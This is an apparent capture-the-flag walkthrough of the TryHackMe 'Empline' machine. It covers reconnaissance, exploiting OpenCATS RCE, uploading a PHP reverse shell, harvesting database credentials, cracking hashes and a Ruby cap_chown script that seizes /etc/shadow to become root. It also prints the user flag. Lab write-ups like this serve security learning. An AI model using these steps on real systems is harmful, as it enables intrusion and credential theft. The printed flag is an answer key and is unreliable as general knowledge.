 # Empline - tryhackme

## Enumeration

### Lets start with the initial scans with nmap 
```
# Nmap 7.92 scan initiated Mon Jul 18 01:07:28 2022 as: nmap -sC -sV -oN nmap 10.10.80.228
Nmap scan report for 10.10.80.228
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Empline
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 18 01:08:00 2022 -- 1 IP address (1 host up) scanned in 32.53 seconds

```
### We got two ports open, so we tried accessing the webserver and there is a simple static page with no paramters exploitable
![004.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/004.png)

### Next we tried bruteforcing directories using gobuster
```
/index.html           (Status: 200) [Size: 14058]
/assets               (Status: 301) [Size: 313] [--> http://10.10.80.228/assets/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.80.228/javascript/]

```
### Didn't find anything usefull, next we tried bruteforcing subdomains for that we have to add the IP to the /etc/hosts file as "empline.thm"
```
Found: job.empline.thm (Status: 200) [Size: 3671]
Found: gc._msdcs.empline.thm (Status: 400) [Size: 422]
Found: www.job.empline.thm (Status: 200) [Size: 3671]
Found: _domainkey.empline.thm (Status: 400) [Size: 422]
```

### Here we find some interesting subdomains so we added these to out /etc/hosts file, then after navigating to the job.empline.thm, we got this login page
![005.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/005.png)

## Exploitation

### Here we get to know that opncats is running, so lets find it is exploitable or not, using searchsploit we get to know that it is vulnerable to RCE
```
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenCATS 0.9.4 - Remote Code Execution (RCE)                                                                     | php/webapps/50585.sh
OpenCats 0.9.4-2 - 'docx ' XML External Entity Injection (XXE)                                                   | php/webapps/50316.py
----------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
### So here we mirrored the exploit in our attacker machine and it gives us a unstable shell
![006.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/006.png)

### So here we see the present working directory and we tried uploading our favourite php-reverse-shell in the current working directory, and we sucessfully managed to upload the reverse-shell on the server
![007.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/007.png)
![008.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/008.png)

### Now we have to call the shell by visiting the url
```
http://job.empline.thm/upload/careerportaladd/revshell.php
```
## Initial foothold
### Here we got the shell
![009.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/009.png)

### After visiting many directories on the server we find "config.php" in /var/www/opencats directory and in the file we got the credentials of mysql database
![001.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/001.png)

### After using these creds we are sucessfully managed to enter in the database
![011.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/011.png)

### Here we got the hashes of 3 users admin,george,james 
![012.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/012.png)

### We saves these hashes in a file named hash, next we tried crack these hashes using john 
![002.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/002.png)
## User Flag
### Here we find the password for the user george, and we use these creds to log in to the webserver using ssh and we sucessfully logged in to the server
![013.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/013.png)

### Here we find the user flag
```
george@empline:~$ cat user.txt
91cb89c70aa2e5ce0e0116dab099078e
```
## Priv esc

### We went through many directories but we didn't find anything intersting, then we tried to check the /etc/crontab file, there also we didn't find anthing intersting, then we upload linpeas to the server and the output gives something interesting
![014.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/014.png)

### So we tried googling it and we find that we can change the ownership of the file using cap_chown+ep using ruby 
```
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_chown
```

### So to own the file we have to make a ruby script to change the permissions of the file, in our case we are changing the ownership of /etc/shadow file, so that we can change the root passwd and then we become root
### For that we have to built a ruby script 
```
https://apidock.com/ruby/FileUtils/chown
```

### We take the help of this article to make our ruby script, the script looks like this 
```
require 'fileutils'
FileUtils.chown 'george', 'george', '/etc/shadow'
```

### And now lets check the ownership of the /etc/shadow file
![015.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/015.png)

### Here we can see we own the file now, next we have to change the root password, in our case we copied the hash of the user george and paste that in the root hash, so that the password of george and root will become same
### Now we tried the same password we used for user george 
![016.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/016.png)

## BOOOOOOOOOOMMMMMMMMM!!!!!!!!!!!!!!! We are root and here we got the root flag
# <3 by sigwotts
